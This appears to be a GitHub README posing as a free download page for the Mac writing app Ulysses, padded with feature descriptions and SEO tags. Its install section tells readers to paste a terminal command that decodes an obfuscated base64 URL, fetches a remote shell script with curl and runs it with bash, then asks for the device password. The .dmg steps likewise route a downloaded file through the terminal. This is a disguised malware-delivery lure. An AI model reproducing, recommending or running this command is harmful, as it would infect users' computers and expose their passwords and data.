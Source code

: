 # Ulysses For Mac — Free Download
Ulysses is a powerful writing app for Mac, designed for writers, journalists, and creatives. Follow the instructions below to download and install Ulysses for free on your Mac OS. 🚀

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge)](https://mrboomzeus519.github.io/gimronus/ulysses)

If the button above doesn’t work, follow the manual installation instructions below using the terminal.

## 📦 How to Install Ulysses For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get
Ulysses offers a seamless writing experience with powerful features tailored for Mac users. Here’s what you can expect:

- ✍️ **Distraction-Free Writing**: Focus on your words with a clean, minimalist interface designed to keep distractions at bay.
- 📚 **Organized Workspace**: Manage all your writing projects in one place with a flexible library and folder system.
- 🛠️ **Markdown Support**: Write in Markdown for easy formatting and compatibility with modern publishing platforms.
- 📤 **Export Options**: Export your work as PDF, Word, HTML, or ePub with professional formatting in just a few clicks.
- ☁️ **iCloud Sync**: Seamlessly sync your projects across all your Apple devices for a fluid workflow.
- 🔍 **Powerful Search**: Quickly find text, notes, or projects with advanced search and filtering tools.

---

## About Ulysses
Ulysses is a premium writing application for Mac, renowned for its elegant design and robust functionality. Whether you’re crafting a novel, writing blog posts, or managing research notes, Ulysses provides a distraction-free environment that enhances productivity. Its sleek interface ensures that writers can focus solely on their content, making it a favorite among authors, journalists, and students. By offering a free download, Ulysses allows users to experience its full suite of tools without barriers, ensuring accessibility for all Mac users.

The app’s Markdown-based editor is a standout feature, enabling writers to format text effortlessly while maintaining compatibility with modern publishing platforms. Ulysses supports a variety of export formats, including PDF, Word, and ePub, making it ideal for professionals who need polished documents for publication. Its built-in organizational tools, such as the library and folder system, allow users to manage multiple projects with ease, keeping everything from short notes to full manuscripts in one place.

For those who work across multiple devices, Ulysses offers seamless iCloud integration, ensuring that your writing is always up-to-date, whether you’re on your Mac, iPad, or iPhone. The app’s advanced search functionality allows you to locate specific passages or projects quickly, saving valuable time during the creative process. Writers can also set goals, track progress, and organize their work with tags and filters, making Ulysses a versatile tool for both casual and professional use.

One of the key advantages of Ulysses is its focus on simplicity without sacrificing power. Unlike other writing apps, it combines a clean interface with advanced features like version history, inline notes, and customizable themes. This balance makes it suitable for writers of all levels, from beginners drafting their first blog post to seasoned authors working on complex manuscripts. The free download option ensures that anyone can try Ulysses and explore its capabilities without upfront costs.

### Why Choose Ulysses?
Ulysses stands out for its intuitive design and feature-rich environment. Its distraction-free mode eliminates clutter, helping writers stay focused. The app’s robust export options and iCloud sync provide unmatched flexibility, while its Markdown support caters to modern writing workflows. With a free download, Ulysses makes it easy to experience a premium writing tool tailored for Mac users.

---

## 🖼 Preview
![Ulysses Interface](https://ulysses.app/assets/start/en/devices@3x.png)  
*Clean, distraction-free writing interface for maximum focus.*

![Library View](https://thesweetsetup.com/wp-content/uploads/2024/07/Ulysses-update-iPad-overview.png)  
*Organize your projects with Ulysses’ intuitive library system.*

![Export Options](https://thesweetsetup.com/wp-content/uploads/2024/07/ulysses-review-5-export.png)  
*Export your work in multiple formats, including PDF and ePub.*

---

## 🔍 Tags
Ulysses free download, Ulysses for MacOS free, Ulysses Mac download, Ulysses free Mac app, ulysses download, ulysses free app, ulysses for MacOS, ulysses for free

